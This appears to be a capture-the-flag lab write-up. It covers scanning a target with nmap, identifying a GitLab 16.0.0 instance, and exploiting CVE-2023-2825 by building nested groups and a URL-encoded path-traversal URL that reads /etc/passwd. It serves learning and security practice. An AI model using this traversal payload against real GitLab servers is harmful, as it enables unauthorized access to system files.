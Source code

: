 ![image](https://github.com/user-attachments/assets/c6d1211d-8119-43f3-b7b3-2aadeb255fd8)![image](https://github.com/user-attachments/assets/61a2193a-1fb9-4e90-bde8-1712eb485257)# Writeup

# Enumeration
---
### Nmap
#

TCP scan of all ports, including default scripts.

```bash
# Command
sudo nmap -v -sS -sV -sC -T4 -p- -oA getbash-tcp-fullportscan 10.129.229.69

# Output
# Nmap 7.94SVN scan initiated Mon Dec 16 11:33:36 2024 as: nmap -v -sS -sV -sC -T4 -p- -oA getbash-tcp-fullportscan 10.129.229.69
Nmap scan report for 10.129.229.69
Host is up (0.050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f3:e8:cf:2e:39:5f:c9:c8:f1:e8:97:a8:04:6a:28:c2 (RSA)
|   256 9b:8a:64:29:f0:b8:c3:c0:4c:55:f0:78:27:ce:c5:86 (ECDSA)
|_  256 c8:2b:18:14:bd:77:2b:0c:68:f6:c3:cb:92:46:34:66 (ED25519)
80/tcp   open  http    nginx
|_http-favicon: Unknown favicon MD5: 66F9A1C3F2CFD0DF1B570990E86D3095
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 57 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /api/v* /help /s/ /-/profile 
|_/-/ide/ /-/experiment /*/new
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.229.69/users/sign_in
8060/tcp open  http    nginx 1.20.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.20.2
| http-methods: 
|_  Supported Methods: GET HEAD POST
9094/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 16 11:34:12 2024 -- 1 IP address (1 host up) scanned in 36.71 seconds
```

# HTTP (Port 80)

Port 80 on this box is hosting GitLab, I create an account so I can access more of the application before browsing the site. 

After registering an account, the help page displays the current version installed on this machine: v16.0.0.

![image](https://github.com/user-attachments/assets/a7ac5104-a772-46bb-9880-4d69b2bd56e8)

This version has a prominant vulnerability: **[CVE-2023-2825](https://www.getastra.com/blog/vulnerability/cve-2023-2825/#:~:text=About%20CVE%2D2023%2D2825,and%20Enterprise%20Edition%20version%2016.0.)**

This vulnrability is a Path Traversal vulnerability, it requirews you to create 10 nested group and then create a propject in the final group. In this group you can raise an issue with an attachment, the response to this request will give you the file path for the upload, this is where the path traversal vulnerability lies. 

The followin 2 guides were used to exploit this vulnerability:
[Juniper Guide](https://blogs.juniper.net/en-us/threat-research/cve-2023-2825-gitlab-arbitrary-path-traversal-vulnerability)
[Occamsec Guide](https://occamsec.com/exploit-for-cve-2023-2825/)

A minimum of 10 groups are needed, this is the number needed to reach the base directory, this is because on a standard Gitlab install, file attachments are uploaded to `/var/opt/gitlab/gitlab-rails/uploads/@hashed/<a>/<b>/<secret>/<secret>/<file>`. I'm assuming there is a rule in the code allowing you to traverse the number of groups back. The 10 groups and project can be seen below:

![image](https://github.com/user-attachments/assets/b3b04139-ff2d-4887-9935-b53aace61a44)

From here I can upload anydocument to an issue on that project and see in the response the file path.

```text
"note":"[testDoc.txt](/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/testDoc.txt)
```

I can append this to the URL to view the file, the full URL in this example would be:

```text
http://<ip>/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/testDoc.txt
```

It is this URL I can exploit, by using path traversal to access files instead of test Doc.txt. The rule in this exploit is to traverse the number of groups + 1, in this case that will be 11. Forward slashes must also be URL encoded. The full attack URL ends up:

```text
http://<ip>/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

This traverses to the base directory and accesses /etc/passwd:

![image](https://github.com/user-attachments/assets/02fad883-6a92-4b18-958f-3d16d518b900)



